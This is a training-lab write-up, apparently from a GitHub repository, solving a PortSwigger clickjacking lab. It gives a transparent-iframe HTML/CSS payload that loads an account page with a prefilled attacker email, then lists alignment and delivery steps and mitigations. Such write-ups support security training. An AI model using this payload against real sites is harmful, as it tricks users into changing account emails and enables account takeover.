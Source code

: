 # Clickjacking - with form input data prefilled from a URL parameter

## 📌 Lab Details
- **Title**: Clickjacking with form input data prefilled from a URL parameter
- **Difficulty**: Apprentice
- **Category**: Clickjacking
- **Lab URL**: https://portswigger.net/academy/labs/launch/8a7ec1665250f513f8ab3c341f7fcef5402a497d59fa90e673bfd30cd47ff766?referrer=%2fweb-security%2fclickjacking%2flab-prefilled-form-input

## 🔍 Summary
This lab demonstrates **advanced clickjacking combined with CSRF**, using a transparent iframe with a prepopulated email URL parameter to trick the victim into clicking an “Update email” button, thereby changing their account email.

## 🛠 Steps to Solve
1. Log in to the given account.
2. Inject the payload on the **Exploit** server:
   ```sh
   <style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
    </style>
    <div>Click me</div>
    <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
    ```
3. Adjust the values of the template to align the `Click me` button with the `update email` button.
4. Deliver exploit to the victim to complete the lab.

## 📖 Key Takeaways
- Using URL parameters (`?email=hacker@...`) prepopulates forms to bypass user input barriers.
- Proper alignment, transparency (`opacity: 0.0001`), and testing in Chrome are crucial for a successful exploit.
- Mitigations include `X-Frame-Options`, `Content-Security-Policy: frame-ancestors`, and using same-origin CSRF tokens.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/6d2d879b-4112-4f68-8014-9cfd91c33ddd)
![image](https://github.com/user-attachments/assets/6601247b-b38e-4760-a8ba-30b80f75673b)
![image](https://github.com/user-attachments/assets/cbc5087d-fa77-4381-a6aa-14f8a97d73c4)
